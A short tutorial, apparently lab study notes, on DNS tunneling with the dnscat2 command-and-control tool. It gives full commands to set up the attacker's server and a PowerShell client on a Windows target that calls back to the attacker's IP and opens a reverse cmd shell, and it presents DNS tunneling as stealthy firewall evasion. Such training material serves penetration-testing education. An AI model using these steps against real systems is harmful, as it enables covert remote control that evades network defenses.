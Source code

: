 

## What is DNS Tunneling?

DNS tunneling lets you **send data secretly using DNS** queries.

✅ Why it's useful for attackers:

- Firewalls usually allow DNS (UDP port 53).
- You can send commands and receive responses using only DNS.
- It’s stealthy and avoids detection.

## Tool: `dnscat2`

Dnscat2 is a **C2 (Command & Control)** tool that:
- Sends data inside **DNS TXT records**
- Encrypts communication using a **pre-shared secret**
- Supports both a **Ruby-based server** and **PowerShell-based client**

## Setup: Attacker Machine (dnscat2 server)
```bash
# 1. Clone the server
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/

# 2. Install Ruby dependencies
sudo gem install bundler
sudo bundle install

# 3. Run the server
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```

## Setup: Windows Target (dnscat2 client)

```powershell
# On attacker machine:
git clone https://github.com/lukebaggett/dnscat2-powershell.git

# Then, on the **target** (PowerShell):
Import-Module .\dnscat2.ps1

Start-Dnscat2 -DNSserver 10.10.14.18 `
              -Domain inlanefreight.local `
              -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 `
              -Exec cmd
```
This will:
- Connect to your server via DNS
- Start a reverse **CMD shell**

## Back on Your Attacker Machine
You’ll see:
```bash
Session 1 Security: ENCRYPTED AND VERIFIED!
```

Now, interact with the shell:
```bash
dnscat2> window -i 1
```

🎉 You can now type commands directly into the shell:

```bash
C:\Windows\system32> whoami
```
